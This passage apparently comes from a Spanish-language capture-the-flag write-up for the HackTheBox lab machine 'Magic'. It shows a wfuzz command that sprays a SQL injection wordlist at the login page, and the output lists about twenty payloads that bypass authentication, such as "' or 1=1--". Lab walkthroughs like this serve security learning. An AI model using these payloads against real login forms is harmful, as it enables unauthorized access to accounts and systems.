 Lo que haré ahora será filtrar solo por el código de estado `302`.

```console
intrusionz3r0@Kali:~$ wfuzz -c --sc 302 -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "username=FUZZ&password=FUZZ" http://magic.htb/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://magic.htb/login.php
Total requests: 267

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                 
===================================================================

000000037:   302        117 L    277 W    4221 Ch     "hi' or 'a'='a"                                                                                         
000000057:   302        117 L    277 W    4221 Ch     "or 1=1 or ''='"                                                                                        
000000065:   302        117 L    277 W    4221 Ch     "admin' or '"                                                                                           
000000100:   302        117 L    277 W    4221 Ch     "%20or%20''='"                                                                                          
000000103:   302        117 L    277 W    4221 Ch     "hi' or 'x'='x';"                                                                                       
000000115:   302        117 L    277 W    4221 Ch     "a' or 'a' = 'a"                                                                                        
000000122:   302        117 L    277 W    4221 Ch     "or 1 --'"                                                                                              
000000146:   302        117 L    277 W    4221 Ch     "or ''='"                                                                                               
000000176:   302        117 L    277 W    4221 Ch     "anything' OR 'x'='x"                                                                                   
000000201:   302        117 L    277 W    4221 Ch     "x' or 1=1 or 'x'='y"                                                                                   
000000224:   302        117 L    277 W    4221 Ch     "'%20or%20''='"                                                                                         
000000225:   302        117 L    277 W    4221 Ch     "'%20or%20'x'='x"                                                                                       
000000227:   302        117 L    277 W    4221 Ch     "' or 0=0 --"                                                                                           
000000228:   302        117 L    277 W    4221 Ch     "' or 0=0 #"                                                                                            
000000230:   302        117 L    277 W    4221 Ch     "' or 1=1--"                                                                                            
000000232:   302        117 L    277 W    4221 Ch     "' or 1 --'"                                                                                            
000000234:   302        117 L    277 W    4221 Ch     "' or 1=1 or ''='"                                                                                      
000000243:   302        117 L    277 W    4221 Ch     "' or username like '%"                                                                                 
000000265:   302        117 L    277 W    4221 Ch     "' or ''='"                                                                                             

Total time: 5.565300
Processed Requests: 267
Filtered Requests: 248
Requests/sec.: 47.97584
```